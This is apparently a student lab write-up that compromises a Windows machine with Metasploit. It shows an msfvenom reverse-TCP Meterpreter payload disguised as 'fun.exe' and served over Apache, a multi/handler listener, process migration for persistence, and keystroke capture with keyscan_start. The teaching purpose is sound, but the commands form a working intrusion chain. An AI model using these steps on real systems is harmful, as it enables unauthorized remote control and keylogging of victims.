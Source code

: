 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
### Find the attackers ip address using ifconfig
# OUTPUT:
![1](https://github.com/user-attachments/assets/2e3ffb21-94b3-442f-97df-7a921a6bcce7)
#### Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![2](https://github.com/user-attachments/assets/335086f0-1279-49d8-bd96-f073375e5835)
copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start
## Check the status of apache2
# OUTPUT :
![3](https://github.com/user-attachments/assets/746204f0-3857-41b3-8240-a4685a629d2e)
### Invoke msfconsole:
# OUTPUT:
![5](https://github.com/user-attachments/assets/d5204efe-eacf-4d54-acd5-528d4b75eae4)
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
# OUTPUT :
![6](https://github.com/user-attachments/assets/dfb18162-3318-4606-ba46-48f4a359e047)
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
# OUTPUT :
![7](https://github.com/user-attachments/assets/e6c1e699-6a9d-47b6-8f2c-b42a05794a72)
## WINDOWS :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads

# BROWSE OUTPUT :
![8](https://github.com/user-attachments/assets/5bfe68c9-9349-4cfc-8a3c-94b3d9bacce4)
## DOWNLOAD OUTPUT :
![9](https://github.com/user-attachments/assets/832b2958-60aa-49a7-ae17-09fa49b6ad6b)
## COME BACK TO PARROT :
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
# OUTPUT :
![10](https://github.com/user-attachments/assets/3fb571a1-a088-4c25-94f2-7bdf7fed5900)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

# OUTPUT :
![11](https://github.com/user-attachments/assets/536d207f-ece1-49ba-8929-d30d6a532707)
## WINDOWS OUTPUT :
![12](https://github.com/user-attachments/assets/824bc560-58b8-47a5-8cea-a0b16b983ac5)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

# OUTPUT :
![13](https://github.com/user-attachments/assets/5c01b7a4-e709-40b9-b687-4403e532f302)
# RESULT:
The Metasploit framework is used to compromise windows and is examined successfully.
